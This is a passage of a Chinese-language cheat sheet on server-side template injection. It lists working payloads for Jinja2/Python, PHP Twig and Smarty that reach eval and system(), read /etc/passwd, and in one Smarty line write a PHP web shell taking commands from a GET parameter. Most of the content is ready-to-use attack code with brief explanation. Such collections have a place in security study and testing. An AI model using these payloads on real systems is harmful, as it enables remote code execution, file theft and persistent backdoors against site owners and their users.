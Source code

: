 ```

{{().__class__.__bases__[0].__subclasses__()[75].__init__.__globals__.__builtins__['eval']("__import__('os').popen('whoami').read()")}}
```

# 5.php 中的SSTI
php常见的模板：twig，smarty，blade

## 1.Twig
Twig是来自于Symfony的模板引擎，它非常易于安装和使用。它的操作有点像Mustache和liquid

文件读取
```
{{'/etc/passwd'|file_excerpt(1,30)}}

{{app.request.files.get(1).__construct('/etc/passwd','')}}
{{app.request.files.get(1).openFile.fread(99)}}
```
RCE
```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}

{{['cat /etc/passwd']|filter('system')}}

POST /subscribe?0=cat+/etc/passwd HTTP/1.1
{{app.request.query.filter(0,0,1024,{'options':'system'})}}
```
## 2、Smarty

Smarty是最流行的PHP模板语言之一，为不受信任的模板执行提供了安全模式。这会强制执行在 php 安全函数白名单中的函数，因此我们在模板中无法直接调用 php 中直接执行命令的函数(相当于存在了一个disable_function)

但是，实际上对语言的限制并不能影响我们执行命令，因为我们首先考虑的应该是模板本身，恰好 Smarty 很照顾我们，在阅读模板的文档以后我们发现：$smarty内置变量可用于访问各种环境变量，比如我们使用 self 得到 smarty 这个类以后我们就去找 smarty 给我们的的方法。

```
{self::getStreamVariable("file:///etc/passwd")}
```
```
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php eval($_GET['cmd']); ?>",self::clearConfig())}
```

常规利用方式：
1.{$smarty.version}
```
{$smarty.version}  #获取smarty的版本号
```
2.{php}{/php}
```
{php}phpinfo();{/php}  #执行相应的php代码
```
因为在Smarty3版本中已经废弃{php}标签，强烈建议不要使用。在Smarty 3.1，{php}仅在SmartyBC中可用
